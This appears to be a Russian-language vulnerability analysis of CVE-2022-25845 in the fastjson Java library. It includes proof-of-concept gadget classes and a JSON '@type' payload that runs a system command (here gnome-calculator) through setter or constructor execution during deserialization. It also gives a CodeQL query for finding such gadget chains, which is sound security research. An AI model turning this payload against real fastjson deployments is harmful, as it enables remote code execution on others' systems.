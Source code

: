 NIST: https://nvd.nist.gov/vuln/detail/CVE-2022-25845

## Описание

В целом уязвимость в `fastjson` сводится к тому, что если создать класс, наследующий от `Throwable` с сеттером (`void set...`), то при десериализации будет вызван код в сеттере, который может содержать, например. `Runtime.getRuntime().execute(...)`:

```java
public class Poc extends Throwable {
    public void setName(String str){
       Executor.execute(str);
    }
}
```

Пример JSON-пэйлоада:

```json
"{\"@type\":\"java.lang.Exception\",\"@type\":\"org.example.Poc\",\"name\":\"/usr/bin/gnome-calculator\"}";
```

После просмотра исходного кода и дебага примера ниже с целью найти трейс, в результате которого выполняется уязвимость, я определил ключевой путь с сурсом src/main/java/com/alibaba/fastjson/JSONPath.java:4133 и синком в файле src/main/java/com/alibaba/fastjson/parser/deserializer/FieldDeserializer.java#setValue (тут выполняется вся логика, связанная с вызовом сеттеров аллоцированного объекта).

## Пример выполнения уязвимости

```java
// Executor.java
package org.example;

import java.io.IOException;

class Executor {
  public static void execute(String str) throws IOException {
    Runtime.getRuntime().exec(str);
  }
}
```

```java
// Poc.java
package org.example;

import java.io.IOException;

public class Poc extends Error {
    public void setName(String str) throws IOException {
      Executor.execute(str);
    }
}
```

```java
// Poc1.java

package org.example;

import java.io.IOException;

public class Poc1 extends Error {
  private String name;

  public Poc1() throws IOException {
    Executor.execute("/usr/bin/gnome-calculator");
  }

  public void setName(String value) {
    this.name = value;
  }
}
```

```java
// PocDemo.java
package org.example;

import com.alibaba.fastjson.JSON;

import java.io.IOException;

public class PocDemo {
    public static void main(String[] args) throws IOException {
        String json_1 = "{\"@type\":\"java.lang.Exception\",\"@type\":\"org.example.Poc\",\"name\":\"/usr/bin/gnome-calculator\"}";
        String json_2 = "{\"@type\":\"java.lang.Exception\",\"@type\":\"org.example.Poc1\",\"name\":\"/usr/bin/gnome-calculator\"}";

        JSON.parseObject(json_1);
        JSON.parseObject(json_2);
    }
}
```

![Demo](./assets/2/1.png)

Оба варианта, с пробросом команды в сеттер и вызовом команды в конструкторе, работают.

## QLInspector

Найдем путь от сурса до синка в fastjson для случая выполнения кода сеттера. Будем ориентироваться на трейс, описанный выше


```java
import java
import DangerousMethods
import Source


private class DangerousExpression extends Expr {
  DangerousExpression() {
    ( this instanceof Call and this.(Call).getCallee() instanceof DangerousMethod ) or
    ( this instanceof LambdaExpr and this.(LambdaExpr).getExprBody().(MethodAccess).getMethod() instanceof DangerousMethod)
  }
}

private class CallsDangerousMethod extends Callable {
  CallsDangerousMethod(){
    exists(DangerousExpression de | de.getEnclosingCallable() = this)
  }
}

private class RecursiveCallToDangerousMethod extends Callable {
  RecursiveCallToDangerousMethod(){

    not this instanceof Sanitizer and

    /*
    /* can be commented for more results
    */
    (
      getDeclaringType().getASupertype*() instanceof TypeSerializable or
      this.isStatic()
    )

    and

    (
     this instanceof CallsDangerousMethod or
    exists(RecursiveCallToDangerousMethod unsafe | this.polyCalls(unsafe))
    )
  }

    /*
    /* linking a RecursiveCallToDangerousMethod to a DangerousExpression
    */
    DangerousExpression getDangerousExpression(){
    exists(DangerousExpression de | de.getEnclosingCallable() = this and result = de ) or
    exists(RecursiveCallToDangerousMethod unsafe | this.polyCalls(unsafe) and result = unsafe.(RecursiveCallToDangerousMethod).getDangerousExpression())
    }
}


/*
*
* global filter to block function in the chain,
* method names can be added when you found a false positive
*
*/
private class Sanitizer extends Callable {
  Sanitizer(){
    hasName([""])
  }
}


query predicate edges(ControlFlowNode node1, ControlFlowNode node2) {
    (node1.(MethodAccess).getMethod().getAPossibleImplementation() = node2 and node2 instanceof RecursiveCallToDangerousMethod) or
    (node2.(MethodAccess).getEnclosingCallable() = node1 and node1 instanceof RecursiveCallToDangerousMethod)
}

predicate hasCalls(RecursiveCallToDangerousMethod c0, RecursiveCallToDangerousMethod c1) {
    c0.polyCalls(c1) or exists(RecursiveCallToDangerousMethod unsafe | c0.polyCalls(unsafe) and hasCalls(unsafe, c1))
}


//================ find sink  ================

// from Callable c0,  DangerousExpression de
// where c0 instanceof RecursiveCallToDangerousMethod and
// de.getEnclosingCallable() = c0
// select c0, de

//================ find source  ===============


// from Callable c0
// where c0 instanceof RecursiveCallToDangerousMethod and
// c0 instanceof Source
// select c0


//=======  link the source and the sink  ======

// from RecursiveCallToDangerousMethod c0,  RecursiveCallToDangerousMethod c1, DangerousExpression de
// where de.getEnclosingCallable() = c1 and
// c0 instanceof Source and
// hasCalls(c0, c1)
// select c0, c0, c1, "recursive call to dangerous expression $@", de, de.toString()


//========== check source to sink path  ==========
// from Callable c0, MethodAccess ma , Callable c1
// where c0 instanceof RecursiveCallToDangerousMethod and
// ma = c0.(RecursiveCallToDangerousMethod).getDangerousExpression() and
// ma.getMethod() instanceof ReflectionInvocationMethod and
// c0 instanceof Source
// select  c0, ma

// from RecursiveCallToDangerousMethod c0,  RecursiveCallToDangerousMethod c1, DangerousExpression de
// where de.getEnclosingCallable() = c1 and
// c0 instanceof Source and
// hasCalls(c0, c1)
// select c0, c0, c1, "recursive call to dangerous expression $@", de, de.toString()

from Callable source, Callable sink
where
sink instanceof CallsDangerousMethod
and source.polyCalls(sink)
// and sink.getFile().toString().regexpMatch(".*FeildDeserializer.java")
select  source, sink, sink.getFile()

```

В результате выполнения запроса получаем несколько десятков путей, многие из которых повторяются. С учетом того, что основная фича библиотеки -- аллокация и популяция объектов с помощью reflection, неудивительно, что найдено много подозрительных gadget chains.

Результат:

![Result](./assets/2/2.png)
